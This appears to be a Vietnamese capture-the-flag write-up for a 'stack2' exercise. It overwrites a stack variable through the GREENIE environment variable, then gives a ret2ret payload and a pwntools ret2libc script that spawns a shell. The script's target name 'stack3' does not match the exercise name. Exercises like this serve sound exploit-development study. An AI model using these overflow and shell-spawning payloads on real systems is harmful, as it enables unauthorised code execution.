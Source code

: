 # stack2

## description

Chạy thử chương trình thì báo lỗi vì chưa cài đặt biến môi trường tên `GREENIE`. Cùng ngó thử qua hàm main nhé.
![main1](main1.png)

![main2](main2.png)

Đọc qua ta thấy ngay lấy giá trị của biến môi trường `GREENIE(0x80485e0)` gán vào biến `variable([esp+0x5c])`. Sau đó, dùng strcpy để đưa giá trị từ `variable` tức là `GREENIE` vào `buf([esp+0x18])`. Cuối cùng so sánh giá trị ở biến `modified([esp+0x58])` với 0xd0a0d0a. Vậy ta cần tìm cách để cho `modified = 0xd0a0d0a`.

## Solution

### Buffer overflow

biến `modified` ở sau `buf`, nên phần `padding: 0x58-0x18 = 0x40`. bây giờ mình tạo một `environment variable` có tên là `GREENIE` nằm trong cùng đường dẫn với source. Như sau:

`export GREENIE= $(python -c ‘print “A”*64 + “\x0a\x0d\x0a\x0d”')`

![run](run.png)

### Ret2ret

Cũng tương tự, bài này có thể giải quyết bằng cách control EIP để jump về nhánh if chúng ta cần. Dùng cyclic và gdb pwndbg tìm được padding size = 84 bytes.
Payload: `export GREENIE=$(python -c 'print "a"*84+"\xef\x84\x04\x08"')`

![ret2ret](ret2ret.png)

## Spawn shell

vì vẫn dùng chung libc nên system address,&"/bin/sh" ko đổi, thay đổi script một chút là được.

### system()

```python
#!/usr/bin/python3
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = b"a"*64+p32(0x08048477)+b"a"*12   #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)
#run process, export GREENIE = payload
p = process('./stack3')
p.sendline(payload)
p.interactive()
```

### inject shellcode